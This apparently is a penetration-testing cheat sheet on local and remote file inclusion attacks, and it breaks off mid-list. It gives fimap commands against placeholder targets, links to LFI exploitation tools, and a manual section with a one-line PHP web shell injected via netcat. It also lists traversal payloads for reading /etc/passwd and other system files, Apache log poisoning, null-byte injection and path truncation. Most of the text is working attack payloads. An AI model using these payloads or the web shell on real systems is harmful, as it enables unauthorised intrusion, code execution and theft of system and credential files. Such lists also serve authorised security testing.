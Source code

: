 fimap -u ‘http://target.website.com’

fimap -force-run -u “http://target.website.com/?p=2475”

fimap -u "http://*target*/example.php?test="

### kadimus LFI and RFI

https://github.com/P0cL4bs/Kadimus


### LFI pwn

https://github.com/m101/lfipwn

### lfiscan.py

Located in viper-shell

### Lfifuzz.py

Located in viper-shell


### coldfussiondir_traversal.py

### LFI Manual testing

```
Netcat *target* 80

<?php echo shell_exec(*dollar_sign*_GET['cmd']);?>

Including files in the same directory:

?file=.htaccess

Path Traversal:

?file=../../../../../../../../../var/lib/locate.db

(this file is very interesting because it lets you search the filesystem, other files)

Including injected PHP code:

?file=../../../../../../../../../var/log/apache/error.log

Null Byte Injection:

?file=../../../../../../../../../etc/passwd%00

(requires magic_quotes_gpc=off)

Directory Listing with Null Byte Injection:

?file=../../../../../../../../../var/www/accounts/%00

(UFS filesystem only, requires magic_quotes_gpc=off, more details here)

Path Truncation:

?file=../../../../../../../../../etc/passwd.\.\.\.\.\.\.\.\.\.\.\ …

(more details see here and here)

Dot Truncation:
```